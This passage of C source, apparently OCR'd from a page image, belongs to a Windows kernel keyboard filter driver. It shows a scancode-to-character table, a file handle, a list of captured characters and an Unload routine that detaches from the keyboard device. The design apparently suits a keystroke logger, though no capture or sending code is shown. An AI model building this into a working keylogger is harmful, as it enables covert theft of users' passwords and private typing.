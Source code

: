 ```c
    'k', //25
    'l', //26
    ';', //27
    '\'', //28
    '`', //29
    ' ', //2A
    '\\', //2B
    'z', //2C
    'x', //2D
    'c', //2E
    'v', //2F
    'b', //30
    'n', //31
    'm', //32
    ',', //33
    '.', //34
    '/', //35
    ' ', //36
    ' ', //37
    ' ', //38
    ' ', //39
    ' ', //3A
    ' ', //3B
    ' ', //3C
    ' ', //3D
    ' ', //3E
    ' ', //3F
    ' ', //40
    ' ', //41
    ' ', //42
    ' ', //43
    ' ', //44
    ' ', //45
    ' ', //46
    '7', //47
    '8', //48
    '9', //49
    ' ', //4A
    '4', //4B
    '5', //4C
    '6', //4D
    ' ', //4E
    '1', //4F
    '2', //50
    '3', //51
    '0', //52
};
HANDLE hFile;
PDEVICE_OBJECT pactualkeyboarddevice, pgenericdevice;
UNICODE_STRING uKeyboardDeviceName;
int numPendingIrps;
LIST_ENTRY List;
struct zzz {
    LIST_ENTRY ls;
    int ch;
};
void Unload(PDRIVER_OBJECT pDriverObject) {
    struct zzz * z;
    DbgPrint("Driver Unload numPendingIrps=%d", numPendingIrps);
    IoDetachDevice(pactualkeyboarddevice);
    while (numPendingIrps > 0);
    IoDeleteDevice(pgenericdevice);
    z = (struct zzz * ) List.Flink;
```